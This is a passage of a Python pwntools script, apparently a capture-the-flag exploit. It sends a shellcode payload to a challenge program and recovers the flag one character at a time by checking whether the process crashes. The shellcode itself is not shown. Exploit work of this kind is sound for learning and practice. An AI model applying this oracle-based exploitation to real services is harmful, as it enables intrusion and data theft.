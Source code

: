 ```
            )

            p.sendlineafter(b":", b"4")
            p.sendafter(b":", sc)

            good = True

            try:
                p.recvuntil(b"Processing\n")
                a = p.recv(1024, timeout=4)
            except EOFError:
                good = False

            p.close()

            if good:
                flag += char
                print(f"Flag: {flag}")
                break

    interactive()


if __name__ == "__main__":
    init()
    exploit()
```